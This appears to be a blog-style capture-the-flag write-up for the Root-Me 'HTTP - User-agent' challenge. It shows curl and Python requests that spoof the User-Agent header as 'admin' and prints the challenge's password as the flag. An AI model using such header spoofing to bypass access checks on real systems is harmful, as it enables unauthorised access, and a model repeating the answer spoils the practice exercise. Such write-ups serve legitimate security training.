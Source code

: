 ```yaml
---
title: HTTP - User-agent
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 10
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent](https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent)

## Solution

Let's visit the site's source:
```sh
curl http://challenge01.root-me.org/web-serveur/ch2/
```
```html
<html>
  <body>
    <link rel="stylesheet" property="stylesheet" id="s" type="text/css" href="/template/s.css" media="all" /><iframe id="iframe" src="https://www.root-me.org/?page=externe_header"></iframe>
    <h3>Wrong user-agent: you are not the "admin" browser!</h3>
  </body>
</html>
```

Okey, only admin can get access
```sh
curl -H "user-agent: admin" http://challenge01.root-me.org/web-serveur/ch2/
```
```html
<html>
  <body>
    <link rel="stylesheet" property="stylesheet" id="s" type="text/css" href="/template/s.css" media="all" /><iframe id="iframe" src="https://www.root-me.org/?page=externe_header"></iframe>
    <h3>
      Welcome master!<br />
      Password: rr$Li9%L34qd1AAe27
    </h3>
  </body>
</html>
```

Perfect, the flag is
```
rr$Li9%L34qd1AAe27
```

We can use Python, too
```python
import requests
resp = requests.get('http://challenge01.root-me.org/web-serveur/ch2/', headers={'User-Agent': 'Admin'})
print(resp.text)
```
